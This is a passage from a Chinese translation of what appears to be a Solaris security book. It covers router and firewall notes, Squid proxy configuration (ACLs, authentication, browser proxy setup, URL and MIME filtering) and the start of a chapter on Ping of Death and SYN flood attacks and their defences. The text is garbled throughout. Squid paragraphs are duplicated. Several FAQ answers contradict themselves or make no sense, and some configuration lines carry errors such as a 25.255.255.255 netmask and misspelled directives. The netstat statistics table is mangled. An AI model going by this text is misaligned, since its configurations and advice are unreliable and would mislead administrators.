- 如果你的网络首先没有安全的路由器，安全性和完整性就无从谈起。因此，将系统作为路由器的实现必须在设计上就是安全的。这种考虑必须在系统设计之初就提出，并在部署及后的维护中严谨遵守。

## 路由 IP 版本 6

- Solaris 8 支持 IP 版本 6。可以配置一个接口与网络上的 IPv6 主机通信，同时保留 IPv4 通信。这被称为运行双栈。
- 在 Solaris 8 系统上让 IPv6 正常工作相对容易。前提是系统路由流量已配置用于常规的 IPv4 流量。

## IP 版本 6 主机

- IPv6 的功能之一是系统在引导时自动配置 IP 地址的能力。这对于拥有大量主机的网络可能是一个优势，这些主机可能不需要相互连接或没有已知的可访问地址。


Solaris 8 系统上的 IPv6 接口可以使用系统数据或通过 DNS 获取的数据进行手动配置。

Solaris 既可以作为网关，也可以作为路由器。在实现上，两者之间区别不大。区别在于它们在网络中的位置以及与主机交互的方式。

## 将 Solaris 配置为防火墙

- 防火墙在配置命令、管理界面和各种功能方面有所不同。所有防火墙的设计基本上都是相同的：过滤流量。可用的两种防火墙类型是无状态和状态。

- SunScreen Lite 是 SunScreen Net 防火墙包的免费版本。SunScreen Lite 设计用于路由模式运行。SunScreen Lite 可用于 VPN 并支持互联网协议的简单密钥管理（SKMP）。

- IP Filter 软件包是互联网上较早的防火墙实现之一，最初于 1993 年发布。它可以既作为网络防火墙，也可以作为基于主机的防火墙。它支持 IPv4 和 IPv6 网络。

## 使用 Snort 保护 Internet访问

- Snort 非常适合执行入侵检测。它能够监控一系列 IPv4 地址和系统的多个接口。

- 当 Snort 检测到与先建立的数据库中匹配的签名时，它会生成警报以通知系统的负责人员。

## 常见问题解答

以下常见问题由本书作者回答，旨在衡量你对本章所介绍概念的理解程度，并帮助你在现实生活中实现这些概念。如果你想让作者回答你关于本章的问题，请访问 www.syngress.com/solutions 并点击“向作者提问（Ask the Author）”表单。

- Q：本章中描述的路由器安全实现能让你的网络变得安全吗？
- A：不能。路由器本身将是安全的。但是，为了提供更安全的网络基础设施，还需要额外的软件。请参见防火墙部分。

- Q：我需要什么工具为 Sun 指纹数据库（Sun Fingerprints Database）创建指纹？
- A：你需要 `md5`。Sun 通过指纹数据库网站提供了 `md5` 实现。

- Q：使用 `traceroute` 的 `-g` 标志测试路由失败了。为什么？我该做什么？
- A： 测试路由失败有很多原因。如果 DHCP 没有配置路由，那么它就会失败。

- Q：为了让 DHCP 运行，如果你在网络上运行 DHCP 服务，我该做什么？
- A：不建议在网络上运行 DHCP。请确保 DHCP 在所有接口上运行。

# 第 8 章 • 将 Solaris 配置为安全路由器和防火墙

- Q：我可以在 hostname 文件中为防火墙添加多个地址吗？
- A：绝对可以！对于你想在接口上的每个地址，请确保 DHCP 运行。

- Q：我无法在 UltraSparc 上编译 IP Filter。我该做什么？
- A：你需要 Forte C 编译器来编译。在编译时，可以使用 64 位系统。

# 第 9 章

# 在 Solaris 上使用 Squid

本章的解决方案：

- Squid 的默认设置
- 配置 Squid 访问
- 排除受限网站
- 总结
- 解决方案快速通道
- 常见问题解答

## 简介

Squid 是一个符合 HTTP 1.1 规范的缓存代理。它为 浏览器提供了额外的安全层，并通过缓存经常访问的站点提高性能。除了节省带宽，Squid 还可以通过确定使用的 IP 地址进行监控。Squid 可以根据 URL、多用途邮件扩展（MIME）类型过滤内容，并要求身份验证。它可以根据时间、用户或流量类型限制访问。

在本章中，你将学习如何配置 Squid 以保护工作站。Squid 的默认安装允许互联网上的任何浏览器使用你的代理。我们将讨论通过限制特定的 IP 范围来安全这种访问。

## Squid 的默认设置

一旦安装了 Squid，你就必须通过 `/usr/local/etc/squid.conf` 进行配置。该文件定义了 Squid 配置选项，包括 Squid 监听 HTTP 请求的端口号、超时信息、缓存分区信息以及访问控制。安装期间会创建一个 `/usr/local/etc/squid.conf` 文件。

`squid.conf` 文件包含默认设置（已注释掉），以及对设置的某些描述和针对不同站点的建议。

`squid.conf` 中的每个配置选项都被标识为标签。例如，HTTP 客户端请求端口设置被标识为 `http_port` 标签。我们将 `squid.conf` 中的设置称为标签。

我们将涵盖基础 Squid 配置，以确保缓存服务器安装的安全性和管理。客户端请求控制、缓存目录的大小和位置、基于 IP 地址的访问控制、SNMP 设置、通过 `cachemgr` 工具进行缓存控制以及对某些浏览器的辅助都是这一阶段重要的考虑因素。

## 配置 Squid

如图 9.1 所示，`squid.conf` 文件显示了网络选项。这显示了 Squid 监听客户端 HTTP 请求的套接字地址配置。指定的默认端口是 TCP 端口 `3128`，是

# 在 Solaris 上使用 Squid - 第 9 章

这也是代理客户端用于向代理缓存服务器发送请求的默认端口。如果你在代理缓存服务器上更改了此端口，那么你也需要在代理客户端上进行更改。在 UNIX 的许多配置文件中，井号（`#`）表示注释字段。`squid.conf` 中被注释的选项显示了 Squid 启动时使用的内容。要更改默认值，请删除行首的 `#` 并进行你的修改。

## 9.1 使用 squid.conf 配置 Squid



### http_port 标签

`http_port` 标签确认了 Squid 监听代理客户端的 HTTP 端口。默认情况下，Squid 不在任何端口上监听代理客户端。因此，你必须使用 `http_port` 标签至少打开一个端口， Squid 才能工作。如图 9.1 所示，默认端口为 `3128`。

图 9.2 所示的 `cache_dir` 标签指定了缓存数据的存储位置。你可以在 `squid.conf` 中使用多个 `cache_dir` 标签为你的缓存指定不同的目录。目前，你只需要一个缓存目录。图 9.2 显示了 `cache_dir` 标签的默认设置。默认情况下，显示以下 `cache_dir` 值：

```


`cache_dir ufs /var/spool/squid 100 16 256`

## 9.2 指定缓存目录



### 损害与应得...

#### 加速模式 (Accelerator Mode)

`http_port` 描述中提到的 Squid 模式允许其充当 Web 服务器。Squid 基本上通过更改目标服务器和端口来翻译客户端 Web 请求，然后将请求发送到 Web 服务器。响应会被缓存并由 Squid 发送给客户端。这减少了到 Web 服务器的流量（它加速了缓慢的 Web 服务器），并通过过滤保护 Web 服务器。

在这种模式下，Squid 可以使用正则表达式过滤器清理传入的请求。通过丢弃包含非标准、可疑或过长 URL 的请求，Squid 为那些受缓冲区溢出困扰的服务器提供了防御。虽然它不能替代定期的补丁，但在你的 Web 服务器前面放置一个 Squid 加速模式代理，可以大幅减少黑客的潜在攻击途径。

加速模式的额外好处源于拥有多个 Squid 服务器。通过缓存你的 Web 内容并提供多个故障点，状态响应速度和可靠性得到了提高。

### 访问控制列表 (Access Control Lists)

也许最重要的元素是 Squid 的访问控制列表。Squid 可以根据源 IP 和目的 IP 地址允许或拒绝对代理的访问，要求身份验证，或通过 MIME 类型、URL 限制访问。你必须提供至少一个访问控制列表，否则你的代理将被发现并用作恶意流量溯源的手段。

访问控制 (`acl`) 标签允许你定义许多类型的访问控制列表。对于基于 IP 的访问控制，列表可以包含单个客户端 IP 地址、IP 地址范围或域名。一旦你定义了这些值，你就可以允许或拒绝对缓存服务器的请求。例如，如果你使用 `acl` 标签定义了一个地址范围，你可以允许任何使用该范围内 IP 地址的系统使用代理缓存。`squid.conf` 中的 `acl` 标签如图 9 所示。

### 图 9 Squid 默认访问控制列表



你需要配置 Squid 以允许 `incoming-traveller.com` IP 范围内的客户端访问代理，同时禁止任何其他客户端访问。按照以下步骤操作：

1. 编辑 `/usr/local/squid/etc/squid.conf`。
2. 找到 `acl` 标签部分。
3. 在 `acl localhost src 127.0.0.1/255.255.255.255` 条目之后立即输入以下 `acl`：

```
acl proxy_clients src 24.130.8.0/255.255.255.0

acl proxy_clients src 24.130.10/255.255.255.0
```

或者，你也可以通过源域名创建访问列表：
`acl proxy_clients srccdomain incoming-traveller.com`

4. 保存 `squid.conf`。图 9.4 显示了带有这些添加内容的 `squid.conf`：

### 图 9.4 proxy_clients 列表



你还需要定义一个访问控制列表（acl），以标识哪些主机将允许控制缓存。使用 `cachemgr.cgi` 时，此 acl 是安装程序的 Web 服务器的 IP 地址。向你的 `squid.conf` 中添加以下行：

```
acl mangement_host 192.168.100.12/25.255.255.255
```

现在，你可以定义对缓存的管理访问了：

```
http_access allow manager management_host

http_access deny manager all
```

## 工具与陷阱...

### 良好的维护

SNMP 和 `cachemgr.cgi` 访问对于维护大量缓存代理服务器的管理员来说，可能是极具价值的工具。然而，允许另一个主机控制你的缓存存在安全风险。攻击者可以关闭缓存、重新配置其运行，并读取 `squid.conf` 的内容。这些信息可以泄露关于你的网络和 Web 客户端足够的细节，构成重大风险。

为了降低这种风险，请对管理访问保持极度谨慎。网络内部只有少数受信任的主机应该具有管理访问权限，且选择密码时应像对待其他管理账户的定期更改一样投入同样的关注和精力。只有你的系统管理员才被允许控制缓存。

由于 SNMP 是明文协议，且 Squid 不 SNMPv3 加密密码，理想的管理器应与缓存共享相同的交换密码。如果可能，缓存主机应该有两个网络接口。一个应配置为公共访问，另一个（位于私有网络上）应用于缓存控制和交换缓存对等数据。太阳（Sun）的 Netra 服务器配备了两个网络接口，是极好的 Squid 主机。如果可能，`cachemgr.cgi` 二进制文件应该存放在它自己的 Web 服务器上，与你的公共内容分开。对该二进制文件的访问应限制为安全套层（SSL）保护的连接，以防止缓存管理密码和敏感数据的泄露。


你应该能够通过提供 `cachemgr.cgi` 安装路径的 URL，从 Web 浏览器控制 Squid 缓存。用户名是 `manager`，密码是你用 `cachemgr_passwd` 标签定义的那个。

## 在 Squid 2.4 中——针对 IE 用户的帮助！

在 2.3 版本之前，Squid 与 Internet Explorer 存在问题。开发人员收到反馈，几个之前的 IE 版本在用户请求刷新网页时，未能发送 `Pragma-No-Cache` 请求头。在没有意识到用户已请求刷新页面的情况下，代理会从缓存中投送过期内容。Squid 2.4 增加了一个功能来处理此问题。它通过 `User-Agent` 字符串识别 IE，如果在短时间内收到对同一页面的两个连续请求，它将从缓存中刷新过期的页面，并直接从互联网站点获取新副本。这并不是一个安全问题，但了解此配置选项可以避免接到那些无法加载刷新后的 Web 内容的愤怒用户的来电。要启用此功能，请向你的 squid 配置中添加以下行：

```
ie_refresh on
```


我们已经涵盖了保护你的代理所需的 {配置步骤。下一节将讨论更详尽的访问控制和认证。

## 配置对 Squid 服务的访问

仅仅允许少数受信任的 IP 地址访问你的 Squid 代理可能是不够的。对于某些网站，基于用户的认证是必要的。也许只有部分员工应该使用 Web 处理工作相关事务，或者某些人拥有不受限制的访问，而另一些人只能访问与其相关的站点。Squid 包含了足够处理任何情况的访问控制功能。

## Basic-Auth 的基础

Squid 支持多种认证框架。最基础的认证 NCSA，工作原理类似于从 `.htaccess` 文件获取的 HTTP 基础认证。客户端会被提示输入用户名和密码，这些将与存储在 Squid 服务器上的本地密码文件进行对比。Squid 支持多种认证框架。最基础的...此外，Squid 还可以通过轻量级目录访问协议 `LDAP`、服务器消息块 `SMB` 用于 Windows、可插认证模块 `PAM` 等进行认证。只有你的系统管理员才被允许控制缓存。

由于 `SNMP` 是明文协议，且 Squid 不支持 `SNMPv3` 加密密码，理想的管理器应与缓存共享相同的交换密码。如果可能，缓存主机应该有两个网络接口。一个应配置为公共访问，另一个（位于私有网络上）应用于缓存控制和交换缓存对等数据。太阳（Sun）的 Netra 服务器配备了两个网络接口，是极好的 Squid 主机。如果可能，`cachemgr.cgi` 二进制文件应该存放在它自己的 Web 服务器上，与你的公共内容分开。对该二进制文件的访问应限制为安全套层（SSL）保护的连接，以防止缓存管理密码和敏感数据的泄露。

你应该能够通过提供 `cachemgr.cgi` 安装路径的 URL，从 Web 浏览器控制 Squid 缓存。用户名是 `manager`，密码是你用 `cachemgr_passwd` 标签定义的那个。

## 在 Squid 2.4 中——针对 IE 用户的帮助！

在 2.3 版本之前，Squid 与 Internet Explorer 存在问题。开发人员收到反馈，几个之前的 IE 版本在用户请求刷新网页时，未能发送 `Pragma-No-Cache` 请求头。在没有意识到用户已请求刷新页面的情况下，代理会从缓存中投送过期内容。Squid 2.4 增加了一个功能来处理此问题。它通过 `User-Agent` 字符串识别 IE，如果在短时间内收到对同一页面的两个连续请求，它将从缓存中刷新过期的页面，并直接从互联网站点获取新副本。这并不是一个安全问题，但了解此配置选项可以避免接到那些无法加载刷新后的 Web 内容的愤怒用户的来电。要启用此功能，请向你的 squid 配置中添加以下行：

```
ie_refresh on
```

## 用户访问控制

作为一个例子，假设我们的员工应该在工作时间内使用代理。然而，我们的系统管理员允许任何时间访问。首先，创建一个要求任何人认证的列表：

```
acl auth1 proxy_auth REQUIRED
```

接下来，定义任何时间可以使用代理的人员列表：

```
acl auth_any proxy_auth gammond mayborne
```

告诉 Squid 我们的工作时间：

```
acl day time 08:00-18:00
```

现在，我们可以定义访问代理，使得所有人都需要认证，普通员工只能在工作时间内使用代理，而其他人可以在任何时间获得特殊访问：

```
http_access allow auth_any

http_access allow auth1 day

http_access deny all
```

一如既往，最后行的默认拒绝立场是重要的。任何不在 Squid 密码文件中且无法通过其他方式识别身份的人都将被拒绝访问。


## 访问控制超时

默认情况下，Squid 允许从特定工作站访问小时，然后要求用户再次认证。这旨在提供一个合理的折中：存在无人值的工作站被未经授权的风险，但强制用户通过认证过程是一种困扰。如果需要调整时间，`authenticate_ttl` 对象可以接受一个秒值，用于记住已访问的时间。默认值为`3600`，即一小时。要更改此配置以提供三小时不中断的 Web 访问，输入以下命令：

```
authenticate_ttl 14400
```


在大站点，大量的管理员时间可能花费在处理密码更改上。Squid 网站 (`www.squid-cache.org`) 包含了指向几种 CGI 机制的链接，允许用户更改其 Squid 密码。将其中一个放置在安全的 Web 服务器上，仅供内部网络访问，将极大简化 Squid 密码的管理。

# 配置代理客户端

一旦完成身份验证配置，就可以配置客户端来访问代理了。根据您的网络配置，客户端可能可能不需要配置为代理客户端即可使用 Web 代理缓存服务器。例如，某些网络被配置为透明地将离开网络的所有 HTTP 流量发送到 Web 代理缓存服务器。在这种情况下，代理客户端不需要进行手动配置。

配置代理客户端比配置 Squid 要简单得多，因为所有代理客户端配置都在浏览器应用程序内部完成。本演示将向您展示如何为代理服务器配置三个浏览器。一个系统是运行 Lynx 的 UNIX 主机；另一个是运行 Netscape 和 Internet Explorer 的 Microsoft Windows 98 系统。此外，Netscape 支持通过一个指向小型 JavaScript 程序的 URL 来实现自动代理配置。文中将提供此类配置的示例以及必要的 JavaScript 实用程序示例。要配置 Netscape Navigator 使用代理，请按照练习 9.1 中的步骤操作。

## 练习 9.1 配置 Netscape Navigator

- 启动 Netscape Navigator。
- 点击 View（视图）菜单，选择 Preferences（首选项）选项。
- 在 Category（类别）列中，展开树结构并点击 Proxies（代理）。代理配置窗口将出现。您的屏幕应保持如图 9.6 所示。
- 点击 Manual proxy（手动代理）按钮，然后点击 View（视图）。
- 您可以为 Netscape 支持的每个协议配置代理。在 HTTP Proxy 字段中输入 Squid 代理的主机名。如果您的代理配置为使用端口 3128 接收请求，请如图 9.7 所示输入该端口。
- 双击 OK 回到浏览器。不需要重启 Netscape。
- 在 Netscape Navigator 中输入以下 URL：`www.squid-cache.org`。如果该页面没有出现，说明您的浏览器配置错误。如果您已配置 Squid 需要身份验证，则会弹出一个对话框。提供有效的用户名和密码，您应该就能连接到远程站点。

图 9.6 为 Netscape Navigator 配置代理


图 9.7 配置 Netscape Navigator 访问您的 Web 缓存


Lynx 命令行浏览器也支持代理。要配置 Lynx 使用 Squid 代理，请执行练习 9.2 中的步骤。您可能需要 root 权限来编辑 `lynx.cfg` 文件。

## 练习 9.2 配置 Lynx

- 找到以 `#http_proxy` 开头的行，将其更改为：

```
http_proxy:http://webcache.incoming-traveller.com:3128
```
- 保存 `lynx.cfg` 文件。
- 使用 `lynx` 输入以下 URL：`lynx www.squid-cache.org`。
- 应该出现 Squid 首页。如果没有，说明您的浏览器代理设置配置错误。

Internet Explorer 也支持代理。要配置 Explorer，请按照练习 9.3 中的步骤操作。

## 练习 9.3 配置 Internet Explorer

- 启动 Internet Explorer。
- 点击 Tools（工具）菜单并选择 Internet Options（Internet 选项）。
- 选择 Connections（连接）选项卡，点击 LAN Settings（局域网设置）。
- 取消选择 Automatically Detect（自动检测设置）。
- 在 Proxy server（代理服务器）部分，勾选 Use proxy（使用代理）复选框。
- 在 Address 字段中输入 Squid 代理服务器的。
- 在 Port 字段中输入 3128。
- 您的设置窗口应类似于图 9.8。
- 点击 OK 回到浏览器。
- 在 Internet Explorer 中输入以下 URL：`www.squid-cache.org`。
- 应该出现 Squid 首页。如果没有，说明您的浏览器代理设置配置错误。

图 9.8 将 Internet Explorer 配置为 Squid 客户端


# 自动代理配置

您可以通过提供自动代理配置 URL 来简化 Netscape 和 Explorer 用户的浏览器配置。这仅仅是您 Web 服务器上一个名为 `proxy.pac` 的 JavaScript 文件，它包含了关于您的代理的浏览器指令。下方显示了程序的简单形式。它将使 Navigator 将所有 Web 流量发送到您的代理，尽管可以进行更复杂的速率处理。

```javascript
function FindProxyForURL ( url, host ) {
    return "PROXY webcache.incoming-traveller.com:3128; DIRECT";
}
```

与其使用 Manual（手动）代理配置按钮，只需选择 Automatic proxy configuration（自动代理配置）并提供以下 URL：`www.incoming-traveller.com/proxy.pac`。Navigator 将自动为所有 Web 流量使用代理。在 Explorer 中，选择 Use automatic configuration script（使用自动配置脚本）并提供相同的 URL。


# 透明缓存的诱

拥有大量 Squid 客户端的站点应该考虑透明缓存解决方案。透明缓存由重写 HTTP 数据包并将其发送到缓存的网络设备组成。随后 Squid 缓存处理请求并返回响应。

透明缓存系统的优势在于您和支持人员不需要单独配置成百上千个浏览器。您的用户正常上网，不知道网络正在将他们的请求发送到缓存。大多数透明缓存系统还支持冗余故障转移。如果缓存无法处理请求，透明缓存系统可以将数据发送到备用缓存或直接到互联网。

流行的缓存系统之一使用的是 Web缓存协调协议（WCCP）。最新版本的 Squid 支持 WCCP。配置完全 Cisco 路由器将透明地将所有 HTTP 流量发送到 Web 缓存。来自 Extreme Networks、F5、Allot 和 Packeteer 的许多其他服务实现也支持透明缓存。当使用 `ipfilt-transparency` 编译时，Squid 与几乎任何厂商的 Web 缓存强制系统良好交互。


该解决方案的优势是客户端浏览器只需要配置一次。有时需要更改代理行为——代理主机名可能会更改，或者某些 URL 需要直接到互联网而不是代理。更改 `proxy.pac` 文件中的 JavaScript 即可实现这些更改。

# 排除对限制性网站的访问

通过 URL 规制内容有两种基本方法。第一种通过 `url_regex` 访问控制列表匹配请求 URL 的任何部分，并用于允许或拒绝访问。第二种通过 `dstdom_regex` 匹配客户端请求的目标域名。

这一点是不容否认的。可以指定近无限数量 `url_regex` 行及其相应的 `http_access` 行——例如为了阻止色情 URL。然而，对大量客户端请求的每一个 URL 进行正则表达式处理会产生巨大的处理开销。Squid 也可以将 URL 发送到一个名为重定向器（`redirector`）的程序进行处理。常见的重定向器使用 `squid` 或 `jesred` 根据其自身的正则表达式列表与 URL 进行匹配，并指示 Squid 将 URL 重写为另一种形式（用于拦截弹出广告），或者无阻通过，或者将其拦截。重定向器并没有消除或显著减少计算开销；它们只是简化了大型区块列表的管理。

## 按目标域名过滤

或者，Squid 可以限制对具有特定域名网站的访问。在某些情况下，这种技术可能比 `url_regex` 更有效。例如：

```
acl jobs dstdom_regex jobs.com
http_access deny jobs
http_access allow all
```


上述示例匹配浏览器请求的任何以 `jobs.com` 结尾的域名。

## 按 MIME 类型过滤

监管某些 MIME 类型的访问可能会是有益的。也许你的用户花费了太时间听 RealAudio 剪辑或观看视频流。Squid 可以在客户端点击链接时匹配浏览器请求的 MIME 类型并拒绝访问，改为返回错误消息。要拒绝访问 RealMedia 文件，请使用以下列表：

```
acl real req_mime_type real

http_access deny real

http_access allow all
```

请注意，任何种形式的内容过滤（无论是通过 URL、域名还是 MIME 类型）都带有相当大的误报风险。许多良性的、与工作相关的或无害的内容可能会被激进的正则表达式匹配无意中地拦截。

## 按 Content-Length 头部过滤

最后，Squid 提供了调节返回给浏览器的数据大小的选项。对于防止客户端下载大文件（如电影）有用。然而，由于 HTTP 在很大程度上已取代 FTP 匿名发布软件、存档、补丁和其他大型二进制文件的手段，这也带有损害网络无害用途的风险。`reply_body_max_size` 对象控制 Squid 愿意传递给客户端的最大响应大小。默认值为 0，意味着将接受任意大小的响应。Squid 使用远程 Web 服务器提供的 `content-length` 头部来检查此值。如果该头部不可用，客户端将从远程服务器接收数据，直到超过 `reply_body_max_size`，此时 Squid 将突然关闭连接。要允许允许 4 兆字节的响应，请在 `squidconf` 中找到以下行：

```
#reply_body_max_size 0
```

并将其改为：

```
reply_body_max_size 4096
```

注意，Squid 以千字节为单位测量响应大小。

## 总结

在本章中，你学习了如何配置 Squid 缓存 Web 代理服务器。代理服务器使用一系列访问控制列表，根据客户端浏览器的 IP 地址、远程用户的身份验证能力、请求的 URL 大小、MIME 类型或类型，或者根据时间来授予或拒绝 Web 请求。

Squid 为系统管理员提供了一个强大的接口。可以通过 Web 或 SNMP 控制代理服务器。它提供了关于性能状态、Web 流量、客户端请求和缓存整体状况的详细报告。

Squid 通过限制对特定 IP 范围的请求、要求用户身份验证以及限制可能检索的内容类型，让系统管理员对 Web 访问进行精细控制。

## 解决方案快速通道

### Squid 安装的默认设置

- 默认情况下，Squid 拒绝所有浏览器的访问。你必须配置允许的 IP 地址范围。最好保留 Squid 的默认拒绝行为，以确保你的代理仅按你预期的方式使用。
- SNMP 和 `cachemgr.CGI` CGI 程序允许对缓存进行高级监控和控制，这需要仔细注意安全。

### 配置 Squid 服务访问

- Squid 可以要求用户在访问代理之前进行身份验证。默认情况下，Squid 能够通过外部程序处理 HTTP 基础认证。
- Squid 身份验证与客户端 IP 地址绑定，并持续一小时。此值可以通过 `authenticate_ttl` 标签进行配置，以根据客户端需要设置更长或更短的时间。
- HTTP 基础认证是明文传输的，因此访问密码应与提供 Shell 账户或电子邮箱访问的密码不同。考虑许多 CGI 修改密码表单之一来简化用户的账户维护。
- 三种最常见的 Web 浏览器都可以通过代理服务器访问互联网。通常情况下，只需要缓存主机名和端口号。使用 Netscape 或 Internet Explorer 支持的自动代理配置 URL 将简化客户端配置，并允许对客户端如何访问代理进行更大的控制。

## 排除对受限网站的访问

- 使用 `url_regex` 或 `dstcom_regex` 匹配远程站点。
- 要监管下载的内容类型，使用 `req_mime_type` 正则表达式。
- 监管 Web 内容可能会提高性能或防止查看可疑材料，但激进的过滤带有性能和浏览可能受到负面影响的风险。

## 常见问题

以下常见问题由本书作者解答，旨在衡量你对本章所提概念的理解程度，并帮助你在现实生活中实现这些概念。如需让作者回答你关于本章的问题，请访问 `www.syngress.com/solutions`。

Q: Squid 需要多少资源？
A: Squid 不需要极端的资源。

Q: 有简单的方法停止它吗？
A: 你可以使用以下方法：

Q: 我可以强制 Squid 吗？
A: 使用 Solaris 缓存守护进程 (`nscd`)。

Q: 发生了什么？
A: 使用 Solaris 缓存守护进程 (`nscd`) 来减速。为了防止 `nscd` 缓存，请打开 `/etc/nscd.conf` 并取消注释：

```
enable-cache no
```

# 破解技巧 · 第 10 章

连接。通过创建数量大量的 TCP 连接并让它们处于某些状态，攻击者可以耗尽目标系统的资源，导致其崩溃。通常情况下，以这种方式利用 TCP 连接的攻击也会耗尽攻击者自身的资源。而 Napa 攻击使得攻击者能够在消耗少量资源的情况下，轻松对目标系统实施拒绝服务（DoS）。

我们将首先查看三种类型的拒绝服务攻击。第一种是“死亡之包”（Ping of Death），目标是 TCP/IP 内核栈，会导致系统崩溃。我们还将考虑 SYN 泛滥拒绝服务攻击，以及邮件服务器最常用的攻击之一——邮件泛洪（e-mail flood）。

## 死亡之包

死亡之包攻击首次出现于 1996 年，也称为 ICMP 攻击（因此名为“死亡之 Ping”）。通常 IP 包的大小为 65535 字节，这包含了头部长度（假设没有设置任何选项）。典型的 ICMP 显声请求（echo-request）由八字节的 ICMP 头部信息（根据 RFC-792）和显声请求中的数据字节数组成。这意味着 ICMP 数据的最大允许大小为 65507 字节（最大 IP 包大小减去 IP 头部和 ICMP头部的大小）。然而，通过 IP 分片将负载分解，可以构造出有效负载大于 65507 字节的 ICMP 显声请求包。分片依赖每个分片 IP 头部中的偏移量（offset）值。由于大多数系统在接收所有分片之前不会处理数据包，通过在最后一个分片中设置一个有效的偏移量，导致 16 位的内部变量溢出——即该偏移量加上分片大小后生成的包长度超过了 65535 字节。重组此类数据包的系统可能会恐慌（panic）、崩溃、重启或冻结。

对于外部防护，可以通过在网络边界路由器上阻止入站的 ICMP 流量来轻松防御死亡之包。对于内部网络，唯一的真正解决方案是保持操作系统的版本更新到最新状态。Solaris 2.4、2.5 和 2.5.1 显然是唯一易受死亡之包攻击的 Solaris 版本。针对 Solaris 2.4、2.5 和 2.5.1 的补丁是为应对此漏洞而发布的，安装新的 IP 驱动程序以拒绝过大的 ICMP 包。如果攻击者尝试使用这种方法，内核将直接丢弃过大的 ICMP 显声请求包。表 10.1 列出了适用于死亡之包攻击的 Solaris 补丁。


### 表 10.1 适用于死亡之包攻击的 Solaris 补丁

| Solaris 版本 | Patch丁 ID |
| --- | --- |
| SunOS 5.4 | 103630-09 |
| SunOS 5.4 x86 | 103631-09 |
| SunOS 5.5 | 103169-12 |
| SunOS 5.5 x86 | 103170-12 |
| SunOS 5.5.1 | 101945-51 |
| SunOS 5.5.1 x86 | 101946-45 |

最后说明：虽然大多数人使用 ICMP 显声请求包攻击死亡之包，但可以使用 TCP、UDP 甚至 IP 构造类似的攻击。

## SYN 泛洪

SYN 泛洪发生在攻击者尝试向目标系统发起大量连接以耗尽 TCP 连接队列时。这种攻击如果成功，将拒绝包括 Web 流量和 SMTP 流量在内的任何 TCP 连接。通常连接通过三个步骤建立：第一步，发起连接的系统向监听服务的目标发送一个 TCP SYN 包。目标随后发送一个 SYN-ACK 包。当发起者接收到目标的 SYN-ACK 时，向目标发送一个 ACK 包作为响应。一旦三次握手完成，连接被视为已建立（established）。SYN 泛洪利用前两个步骤来填充目标主机的 TCP 连接队列处于 SYN_RCVD（已接收）状态。在第三阶段，如果没有收到三次握手的最后一个 ACK 包，连接将保持在 SYN_RCVD 状态，直到被内核超时（这取决于配置，可能是几毫秒或几秒）。这就是 SYN 泛洪的原理。一旦入站连接队列满，就无法建立新的连接。检测这种攻击很困难。然而，Solaris 提供了几种工具来检测和防御这种攻击。判断 Solaris 系统是否正遭受 TCP SYN 攻击的一种方法是使用以下命令监控 SYN_RCVD 状态的连接数：

```bash
```


# `netstat -an | grep SYN_RCVD | wc -l`

将系统在正常条件下返回的值作为基准。你也可以通过查看 `netstat` 摘要来检测 TCP SYN 攻击，输出应该如下：

| TCP | tcptoAlgorithm | tcptoMin | 400 |
| --- | --- | --- | --- |
| tcptoMax | tcpMaxConn | -1 |
| tcpActiveOpens | 4821 | tcpPassiveOpens | 1179 |
| tcpAttemptFails | 4675 | tcpResets | 5 |
| tcpCurrEstab | 2 | tcpOutSegs | 134889 |
| tcpOutDataSeg | 100583 | tcpOutDataBytes | 129482 |
| tcpRetransSegs | 62 | tcpRetransSegs | 34302 |
| tcpOutAck | 29722 | tcpOutDelayed | 7869 |
| tcpOutUrg | 0 | tcpOutUpdate | 97 |
| tcpOutWinProbe | 3 | tcpOutControl | 11973 |
| tcpOutRsts | 4672 | tcpRetransSegs | 3 |
| tcpInSegs | 183296 | tcpAckSegs | 91907 |
| tcpInAckBytes | 1294013 | tcpInDupAck | 421 |
| tcpInAckUnsent | 0 | tcpInOrderSegs | 96602 |
